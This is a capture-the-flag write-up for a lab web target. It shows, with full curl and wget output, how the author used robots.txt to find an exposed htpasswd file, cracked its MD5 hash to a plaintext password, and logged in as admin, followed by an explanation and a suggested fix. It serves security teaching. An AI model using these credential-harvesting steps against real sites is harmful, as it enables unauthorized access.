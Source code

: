 # Admin(htpasswd)

If we go to <http://192.168.31.135/robots.txt> we will find 2 folders disallowed - `/whatever` and `/.hidden`.
Let's check <http://192.168.31.135/whatever/>

```
daniseed@DESKTOP:~/darkly$  curl -v 192.168.31.135/whatever/
*   Trying 192.168.31.135:80...
* TCP_NODELAY set
* Connected to 192.168.31.135 (192.168.31.135) port 80 (#0)
> GET /whatever/ HTTP/1.1
> Host: 192.168.31.135
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:25:44 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
<
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>
* Connection #0 to host 192.168.31.135 left intact


*   Trying 192.168.31.135:80...
* TCP_NODELAY set
* Connected to 192.168.31.135 (192.168.31.135) port 80 (#0)
> GET /whatever/htpasswd HTTP/1.1
> Host: 192.168.31.135
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:26:29 GMT
< Content-Type: application/octet-stream
< Content-Length: 38
< Last-Modified: Tue, 29 Jun 2021 18:09:05 GMT
< Connection: keep-alive
< ETag: "60db61c1-26"
< Accept-Ranges: bytes
<
root:437394baff5aa33daa618be47b75cb49
* Connection #0 to host 192.168.31.135 left intact
```

OR

```
daniseed@DESKTOP:~/darkly$ wget http://192.168.31.135/whatever/htpasswd
--2023-05-09 18:05:11--  http://192.168.31.135/whatever/htpasswd
Connecting to 192.168.31.135:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38 [application/octet-stream]
Saving to: ‘htpasswd’

htpasswd                          100%[==========================================================>]      38  --.-KB/s    in 0s

2023-05-09 18:05:11 (2.11 MB/s) - ‘htpasswd’ saved [38/38]



daniseed@DESKTOP:~/darkly$ cat htpasswd
root:437394baff5aa33daa618be47b75cb49
```

We have login-password combination: `root:437394baff5aa33daa618be47b75cb49`

But it doesn't work on its own. So lets try and dehash it with [crackstation](https://crackstation.net/).
The password is encrypted with md5 - `qwerty123@`

Input this on <http://192.168.31.135/admin/> and we have our flag

## Explanation

Attack type: [Information exposure](https://cwe.mitre.org/data/definitions/200.html): robots.txt

> The file robots.txt is used to give instructions to web robots, such as search engine crawlers, about locations within the web site that robots are allowed, or not allowed, to crawl and index. It is often used to identify restricted or private areas of a site's contents. The information in the file may therefore help an attacker to map out the site's contents, especially if some of the locations identified are not linked from elsewhere in the site. If the application relies on robots.txt to protect access to these areas, and does not enforce proper access control over them, then this presents a serious vulnerability. [more](https://portswigger.net/kb/issues/00600600_robots-txt-file)

So the robots.txt file is often used as a primary source of information about hidden areas of the web site.

## How to fix it

>  You should not assume that all web robots will honor the file's instructions. Rather, assume that attackers will pay close attention to any locations identified in the file. Do not rely on robots.txt to provide any kind of protection over unauthorized access.

By adding this code to .htaccess file we can close robots.txt from indexing and following the hyperlink
```
<FilesMatch "robots.txt">
	Header set X-Robots-Tag "noindex, nofollow"
</FilesMatch>
```